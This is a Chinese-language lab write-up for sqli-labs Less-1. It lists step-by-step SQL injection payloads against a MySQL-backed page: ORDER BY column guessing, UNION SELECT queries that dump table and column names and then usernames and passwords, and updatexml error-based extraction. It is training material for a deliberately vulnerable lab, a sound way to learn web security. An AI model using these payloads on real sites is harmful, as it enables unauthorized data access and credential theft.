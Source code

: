 # Less-1 Error based - Single qutos - String

输入单引号访问，报错，显示为MySQL数据库

?id=1'

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824059963-a3a0be35-2caf-4596-91dc-75764fad9d7d.png)

利用布尔表达式和注释，正常显示

?id=1' or 1=1 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824117313-3ee085e8-ebef-4969-ab6d-53a6d6c90ee0.png)

通过order by猜测字段数，最后猜测到4的时候报错，字段数为3

?id=1' order by 4--+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824194148-df5e8fc5-6bd9-4b26-a8a8-13c52bbd4afc.png)

通过union联合查询，并将id设置为不存在的-1，查看回显，确定哪一列可以被显示输出

?id=-1' union select 1,2,3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824279758-3b4f0bad-a2e3-4961-a930-36d0c67225c0.png)

通过MySQL的内置函数，查看当前数据库名称

?id=-1' union select 1,database(),3 --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824346974-da30a265-1fba-4088-9c8e-f7dd55a28198.png)

通过information_schema数据库的tables表，查询当前数据库的表名，用group_concat函数连接输出

?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824526524-3d311a07-93bb-47f1-9fb5-829f0f153f75.png)

通过information_schema数据库的columns表，查询可疑数据库users表的字段名

?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database() --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824605234-772f62ba-422a-4a1a-8858-75af6b552662.png)

通过已经获取的表名和字段名，进行检索用户名和密码

?id=-1' union select 1,group_concat(username,' ',password),3 from users  --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602824679110-0464a2fe-b3a9-4f68-89ec-6f8b5bc602ae.png)

报错查表

?id=1' and updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602908447575-97a0f869-c32e-48d2-8dc4-e17e28a0e9b7.png)

报错查字段

?id=1' and updatexml(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e),1) --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602908478675-2c8c7c92-252e-4e2c-a6c1-5553326e27d2.png)

报错探测数据，因为字符限制，用limit查询

?id=1' and updatexml(1, concat(0x7e, (select concat(username,' ',password) from users limit 0,1),0x7e),1) --+

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1602908675042-d637ae42-9daf-45f3-a0ee-7796d54e83aa.png)